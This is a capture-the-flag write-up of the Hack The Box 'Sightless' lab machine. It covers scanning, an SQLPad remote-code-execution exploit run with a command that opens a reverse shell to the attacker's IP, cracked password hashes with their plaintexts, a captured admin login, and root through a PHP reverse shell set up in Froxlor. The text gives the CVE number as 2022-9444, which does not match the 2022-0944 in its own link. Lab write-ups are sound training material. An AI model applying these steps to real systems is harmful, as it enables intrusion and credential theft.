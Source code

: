## Hackthebox Sightless Writeup 10.129.21.27

### Nmap enumeration

	Nmap scan report for 10.129.21.27
	Host is up, received reset ttl 63 (0.053s latency).
	Scanned at 2024-09-22 20:12:21 CDT for 71s

	PORT   STATE SERVICE REASON         VERSION
	21/tcp open  ftp     syn-ack ttl 63
	| fingerprint-strings: 
	|   GenericLines: 
	|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.21.27]
	|     Invalid command: try being more creative
	|_    Invalid command: try being more creative
	22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
	|   256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
	80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Did not follow redirect to **http://sightless.htb/**
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
	SF-Port21-TCP:V=7.94SVN%I=7%D=9/22%Time=66F0C080%P=aarch64-unknown-linux-g
	SF:nu%r(GenericLines,A1,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20F
	SF:TP\x20Server\)\x20\[::ffff:10\.129\.21\.27\]\r\n500\x20Invalid\x20comma
	SF:nd:\x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x
	SF:20try\x20being\x20more\x20creative\r\n");
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 (96%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 5.0 - 5.5 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=9/22%OT=21%CT=%CU=31167%PV=Y%DS=2%DC=T%G=N%TM=66F0C0BC%P=aarch64-unknown-linux-gnu)
	SEQ(SP=FC%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)
	SEQ(SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=C)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
	ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)
	
From out nmap scan we can see the IP 10.129.21.27 is trying to redirect to http://sightless.htb on port 80. Let's add this to our /etc/hosts file and enumerate the web site on port 80. 

### Adding IP to /etc/hosts

![Hosts](/Hack_The_Box/Sightless/images/hosts-file.png) 

Viewing the source code of sightless landing page we can find a sqlpad subdomain. Let's also add this to our /etc/hosts file and continue with enumeration. Sightless appears to be a development software from reading the home page.

Sightless is also an Enginx Server running on Ubuntu OS. Therefore, php, and html extensions will most likely be common.


![sql subdomain](/Hack_The_Box/Sightless/images/sql-subdomain.png) 

The sqlpad subdomain looks like it might let up execute and run SQL queries. Lets try loading and running xp_cmdshell.

![sqlpad](/Hack_The_Box/Sightless/images/sqlpad.png) 


Enumerating the sqlpad domain with dirsearch returns a manifest.json file that we can view.

![dirsearch](/Hack_The_Box/Sightless/images/dirsearch.png) 

![dirsearch](/Hack_The_Box/Sightless/images/directory-access.png) 

I'm going to see if I can run curl against the url to view the contents.

The manifests file doesn't return any information but clicking the 3 dots on the web page we can see that this is version 6.10 and searching SQLPad exploits we do see one for RCE on github catagorized as [CVE-2022-9444](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944). 


After downloading the github repo to my host machine I run the exploit script without and ags and I can see that it accepts the following arguments:

1. root_url
2. attacker_ip
3. attacker_port

I'm going to start a netcat listener on port 4444

Next I will run on my kali host:
	$ python3 exploit.py http://sqlpad.sightless.htb 10.10.14.X 4444


And we get an initial shell on the machine, it appears we are in a docker container.

![Shell](/Hack_The_Box/Sightless/images/shell.png) 


### Exploitation

Viewing the sqlite db file in /var/lib/sqlpad we can see 2 user accounts.

1. john@sightless.htb
2. admin@sightless.htb

Python isn't installed in the docker container so I'm going to create a metasploit payload so I can transer files.

![Metasploit](/Hack_The_Box/Sightless/images/met-payload.png) 

And transfer the payload to the target.

![Metasploit](/Hack_The_Box/Sightless/images/transfer.png) 


Set up the Metasploit multi / handler

![Metasploit](/Hack_The_Box/Sightless/images/transfer.png) 

After executing my payload on the target I get a meterpreter shell on my attack host.


![Metasploit](/Hack_The_Box/Sightless/images/meterpreter.png) 


I pulled this hash out of the sqlprod db file. I will try to crack it.

$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n*********

I was able to crack the hash with JtR. It appears to be a hash for john. Let's see if I can SSH into the main box and get out of this docker shell.

![JtR](/Hack_The_Box/Sightless/images/hash-crack.png) 

Looking at the /etc/passwrd file we see 3 users with shell access. Root, node, and michael.


![/etc/passwrd](/Hack_The_Box/Sightless/images/passwrd.png) 

Shadow File

![/etc/shadow](/Hack_The_Box/Sightless/images/shadow.png) 

Using unshadow I was able to get root and Michael's hashes. I will now try and crack them. 

$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/

John successfully cracked both hashes. Let's see if we can login via ssh.

Hashes:

blindside
insaneclownposse


![JtR](/Hack_The_Box/Sightless/images/john.png) 

One of the hashes works to login via SSH to Michael account.

![SSH](/Hack_The_Box/Sightless/images/ssh.png) 

Sightless internal netstat ports listening

127.0.0.1:33060
127::3000
127.0.0.1:3306
127.0.0.1:8080


![Network](/Hack_The_Box/Sightless/images/netstat.png) 
![Network](/Hack_The_Box/Sightless/images/netstat2.png) 




### Privilege Escalation

Searching linpeas output Chrome is running -remote debugging-port=0. This appears exploitable.

I also noticed an additional subdomain. admin when I was parsing linpeas output. I'll add it to my /etc/hosts file. 

![Priv Esc](/Hack_The_Box/Sightless/images/chrome.png) 


I next locally port forwarded all the listening ports on the target to my attack machine.


![SSH Local](/Hack_The_Box/Sightless/images/ssh-local.png) 

Now within firefox I will add them all in.

chrome://inspect/#devices


After adding all the ports and capturing the requests in chrome debugger we find that the login is the following credentials.

Username: admin
Password: ForlorfroxAdmin

![Froxlar login](/Hack_The_Box/Sightless/images/login.png) 


For root I copied a php reverse shell to /tmp on michael's ssh session. 

From froxlor I will now create a new php version and have it set to the command /tmp/shell.php and save. I will then deactive and active the service to trigger my shell and get root access. Don't forget to have a listener on your attack machine.


![tmp shell](/Hack_The_Box/Sightless/images/php-shell.png) 


![Froxlar](/Hack_The_Box/Sightless/images/change-version.png) 

![Froxlar](/Hack_The_Box/Sightless/images/disable.png) 

![Froxlar](/Hack_The_Box/Sightless/images/enable.png) 

We should now get a call back with a root shell on our attack machine.

![Root](/Hack_The_Box/Sightless/images/root.png) 

![Root](/Hack_The_Box/Sightless/images/cleanup.png) 
